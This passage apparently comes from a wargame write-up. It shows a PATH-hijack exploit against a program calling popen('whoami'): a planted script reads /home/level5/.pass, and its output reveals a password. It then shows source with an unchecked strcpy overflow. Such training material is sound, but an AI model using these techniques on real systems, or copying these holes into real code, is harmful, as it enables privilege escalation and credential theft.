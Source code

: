 # 4. Level 4

```
$ cat /levels/level04.c
```

```cpp
#include <stdlib.h>
#include <stdio.h>

int main() {
    char username[1024];
    FILE* f = popen("whoami","r");
    fgets(username, sizeof(username), f);
    printf("Welcome %s", username);

    return 0;
}
```

```
$ mkdir /tmp/ving_dir
$ echo cat /home/level5/.pass >> /tmp/ving_dir/whoami
$ chmod 777 /tmp/ving_dir/whoami

$ PATH="/tmp/ving_dir:$PATH"
```

```
$ /levels/level04
Welcome DNLM3Vu0mZfX0pDd
```

# 5. Level 5

```
$ cat /levels/level05.c
```

```cpp
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {

    char buf[128];

    if(argc < 2) return 1;

    strcpy(buf, argv[1]);

    printf("%s\n", buf);
    return 0;
}
```
